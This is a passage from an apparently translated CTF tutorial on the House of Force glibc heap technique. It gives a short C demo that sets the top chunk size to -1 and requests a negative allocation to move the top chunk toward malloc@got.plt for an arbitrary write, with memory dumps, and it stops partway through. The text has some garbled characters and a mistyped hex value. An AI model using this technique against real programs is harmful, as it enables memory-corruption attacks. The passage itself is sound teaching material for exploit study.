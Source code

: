 
## Simple example 1
After learning the principles of HOF, we use an example to illustrate the use of HOF. The goal of this example is to tamper with `malloc@got.plt` by HOF to implement the hijacking process.


```

int main()

{

long * ptr, * ptr2;
ptr = malloc (0x10);
ptr = (long *) (((long) ptr) +24);
*ptr=-1; // &lt;=== Change the size field of the top chunk to 0xffffffffffffffff
Malloc(-4120); // &lt;=== reduce the top chunk pointer
Malloc(0x10); // &lt;=== allocate blocks to implement arbitrary address writes
}

```



First, we allocate a block of size 0x10 bytes.


```

0x602000: 0x0000000000000000 0x0000000000000021 &lt;=== ptr
0x602010:	0x0000000000000000	0x0000000000000000

0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk

0x602030:	0x0000000000000000	0x0000000000000000

```

Then change the size of the top chunk to 0xffffffffffffffff 1⁄4 In the real problem, this step can be achieved through a vulnerability such as heap overflow.
Since -1 is represented by 0xffffffffffffff in the complement, we can assign -1 directly.


```

0x602000: 0x0000000000000000 0x0000000000000021 &lt;=== ptr
0x602010:	0x0000000000000000	0x0000000000000000

0x602020: 0x0000000000000000 0xffffffffffffffff &lt;=== top chunk size field was changed
0x602030:	0x0000000000000000	0x0000000000000000

```

Notice the top chunk location at this point, and when we make the next allocation, we will change the position of the top chunk to where we want it.

